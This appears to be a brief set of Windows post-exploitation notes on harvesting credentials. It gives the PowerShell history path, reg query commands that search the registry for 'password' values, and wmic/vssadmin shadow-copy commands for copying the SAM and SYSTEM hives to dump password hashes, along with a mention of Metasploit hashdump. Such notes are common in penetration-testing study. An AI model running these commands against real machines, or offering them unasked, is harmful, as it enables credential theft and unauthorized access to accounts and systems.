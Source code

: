 # Find Clear-Text Files:
- **Powershell History**:
```
Path: C:\<UserName>\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- **Registry: find password keyword**:
```
c:\Users\user> reg query HKLM /f password /t REG_SZ /s
C:\Users\user> reg query HKCU /f password /t REG_SZ /s
```
- **Also look for:**
  - Database Files
  - Memory Dump
  - Active Directory.Users' description
  - Network Sniffing

# Key Logging

# SAM Database:
  - Path: c:\Windows\System32\config\sam
  - we can not read it and copy it
  - SAM database is encrypted either with RC4 or AES.we need a decryption key which is also stored in the files system in **c:\Windows\System32\Config\system** 
  - how to Dump:
    - MetaSploit.hashdump
    - Microsoft Volume shadow copy:
      ```
      wmic shadowcopy call create Volume='C:\'
      #find where it is stored
      vssadmin list shadows
      copy \\path\to\volume\sam  \\somewhere-Else
      copy \\path\to\volume\\system \\soemwhere-Else
      
      ```
